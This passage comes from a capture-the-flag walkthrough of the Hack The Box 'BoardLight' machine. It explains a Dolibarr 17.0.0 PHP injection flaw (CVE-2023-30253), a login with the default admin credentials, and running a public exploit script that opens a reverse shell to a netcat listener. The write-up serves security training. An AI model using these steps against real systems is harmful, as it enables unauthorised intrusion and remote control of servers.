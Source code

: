 [CVE-2023-30253](https://www.swascan.com/security-advisory-dolibarr-17-0-0/) tells us that an **authenticated** low privileged-user can preform PHP code injection

The system in Dolibarr 17.0.0 checks for lowercase `<?php` tags only. So when a user enters something like `<?PHP>`, it bypasses the input validation

First we need to login to the Dolibarr application. Googling the default credentials tells us the default username is `admin` so let's try admin admin

![Logged into Dolibarr](/assets/images/HTB%20-%20BoardLight/Logged%20into%20Dolibarr.png)

The default login is still available. We can perform this PHP injection manually as we have access to the GUI or we can simply run this script that makes it a bit easier 

I'm going to use the script in this writeup, but I showcase doing it manually on my YouTube walkthrough [here](https://www.youtube.com/watch?v=LAfERlbYfRk)

Let's download the exploit

```bash
git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/tree/main?tab=readme-ov-file
```

Now let's start up our nc listener and proceed to run the script!

```bash
python3 exploit.py http://example.com login password 127.0.0.1 9001
```

![Boardlight Shell](/assets/images/HTB%20-%20BoardLight/Boardlight%20Shell.png)
